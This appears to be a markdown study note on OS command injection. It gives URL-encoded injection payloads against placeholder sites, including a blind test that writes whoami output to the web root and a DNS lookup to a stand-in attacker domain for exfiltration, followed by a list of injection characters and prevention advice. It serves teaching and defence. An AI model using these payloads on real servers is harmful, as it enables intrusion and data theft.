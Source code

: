 # Command injection :syringe:
Allow an attacker to execute OS commands on the server.  Occurs when a user's input is passed to a shell command without sufficient sanitization.

Example:
```sh
# Passing `echo hello` to the shell
# If this appears in the response, the command injection is successful
https://insecure-website.com/stockStatus?productID=%26%20echo%20hello%20%26

# Blind injection - using timing to determine if the command was successful
# `& ping -c 10 127.0.0.1 &` will take 10 seconds to complete
https://insecure-website.com/stockStatus?productID=%26%20ping%20-c%2010%20127.0.0.1%20%26

# Blind injection - writing to a file in the web root
# `& whoami > /var/www/static/whoami.txt &` and then fetch with https://vulnerable-website.com/whoami.txt
https://vulnerable-website.com/stockStatus?productID=%26%20whoami%20%3E%20%2Fvar%2Fwww%2Fstatic%2Fwhoami.txt%20%26

# Blind injection - DNS query to a malicious DNS server
# `& nslookup kgji2ohoyw.web-attacker.com &` and then check query logs.  DNS can also be used to exfiltrate data.
https://vulnerable-website.com/stockStatus?productID=%26%20nslookup%20kgji2ohoyw.web-attacker.com%20%26

```

Injected commands usually end with `&` to prevent subsequent commands from stopping the injected command from running.

## Injection characters
The following can all be uesd to inject commands:
```sh
&
&&
|
||
;
Newline (0x0a or \n)

# Bash specific
`
$(
```

## Prevent
1. Do not allow user input to be used in any shell commands.
1. If there's no other option, validate user input against a safelist of allowed characters or commands.

## Tools
- [Burp Proxy](https://portswigger.net/burp/documentation/desktop/tools/proxy)
- [Burp Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater)
- [BApp Store > Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

## References
- https://portswigger.net/web-security/os-command-injection
